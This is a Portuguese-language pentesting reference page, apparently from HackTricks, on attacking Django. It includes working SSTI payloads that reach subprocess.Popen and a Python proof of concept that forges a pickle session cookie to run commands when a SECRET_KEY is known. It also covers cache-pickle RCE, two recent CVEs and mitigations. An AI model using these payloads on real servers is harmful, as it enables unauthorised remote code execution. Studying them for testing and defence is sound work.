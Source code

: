 # Django

{{#include /banners/hacktricks-training.md}}

## Manipulação de Cache para RCE
O método de armazenamento de cache padrão do Django é [Python pickles](https://docs.python.org/3/library/pickle.html), que pode levar a RCE se [entrada não confiável for descompactada](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Se um atacante conseguir obter acesso de gravação ao cache, ele pode escalar essa vulnerabilidade para RCE no servidor subjacente**.

O cache do Django é armazenado em um dos quatro lugares: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [memória](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [arquivos](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), ou um [banco de dados](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). O cache armazenado em um servidor Redis ou banco de dados são os vetores de ataque mais prováveis (injeção Redis e injeção SQL), mas um atacante também pode ser capaz de usar cache baseado em arquivos para transformar uma gravação arbitrária em RCE. Os mantenedores marcaram isso como um não problema. É importante notar que a pasta de arquivos de cache, o nome da tabela SQL e os detalhes do servidor Redis variarão com base na implementação.

Este relatório do HackerOne fornece um ótimo exemplo reproduzível de exploração do cache do Django armazenado em um banco de dados SQLite: https://hackerone.com/reports/1415436

---

## Injeção de Template do Lado do Servidor (SSTI)
A Linguagem de Template do Django (DTL) é **Turing-completa**. Se dados fornecidos pelo usuário forem renderizados como uma *string de template* (por exemplo, chamando `Template(user_input).render()` ou quando `|safe`/`format_html()` remove a auto-escapagem), um atacante pode alcançar SSTI total → RCE.

### Detecção
1. Procure por chamadas dinâmicas para `Template()` / `Engine.from_string()` / `render_to_string()` que incluam *qualquer* dado de solicitação não sanitizado.
2. Envie uma carga útil baseada em tempo ou aritmética:
```django
{{7*7}}
```
Se a saída renderizada contiver `49`, a entrada é compilada pelo mecanismo de template.

### Primitiva para RCE
O Django bloqueia o acesso direto a `__import__`, mas o gráfico de objetos Python é acessível:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Encontre o índice de `subprocess.Popen` (≈400–500 dependendo da versão do Python) e execute comandos arbitrários:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Um dispositivo universal mais seguro é iterar até `cls.__name__ == 'Popen'`.

O mesmo dispositivo funciona para recursos de renderização de template do **Debug Toolbar** ou **Django-CMS** que manipulam incorretamente a entrada do usuário.

---

## RCE de Cookie de Sessão Baseado em Pickle
Se a configuração `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` estiver habilitada (ou um serializador personalizado que desserializa pickle), o Django *descriptografa e desempacota* o cookie de sessão **antes** de chamar qualquer código de visualização. Portanto, possuir uma chave de assinatura válida (a `SECRET_KEY` do projeto por padrão) é suficiente para execução remota imediata de código.

### Requisitos para Exploração
* O servidor usa `PickleSerializer`.
* O atacante conhece / pode adivinhar `settings.SECRET_KEY` (vazamentos via GitHub, `.env`, páginas de erro, etc.).

### Prova de Conceito
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Envie o cookie resultante, e o payload é executado com as permissões do trabalhador WSGI.

**Mitigações**: Mantenha o `JSONSerializer` padrão, gire o `SECRET_KEY` e configure `SESSION_COOKIE_HTTPONLY`.

---

## Recentes (2023-2025) CVEs de Alto Impacto do Django que os Pentesters Devem Verificar
* **CVE-2025-48432** – *Injeção de Log via `request.path` não escapado* (corrigido em 4 de junho de 2025). Permite que atacantes insiram quebras de linha/códigos ANSI em arquivos de log e envenenem a análise de log a jusante. Nível de patch ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Injeção SQL crítica* em `QuerySet.values()/values_list()` no `JSONField` (CVSS 9.8). Crie chaves JSON para sair da citação e executar SQL arbitrário. Corrigido em 4.2.15 / 5.0.8.

Sempre identifique a versão exata do framework via a página de erro `X-Frame-Options` ou o hash de `/static/admin/css/base.css` e teste o acima onde aplicável.

---

## Referências
* Lançamento de segurança do Django – "Django 5.2.2, 5.1.10, 4.2.22 abordam CVE-2025-48432" – 4 de junho de 2025.
* OP-Innovate: "Django lança atualizações de segurança para abordar falha de injeção SQL CVE-2024-42005" – 11 de agosto de 2024.

{{#include /banners/hacktricks-training.md}}
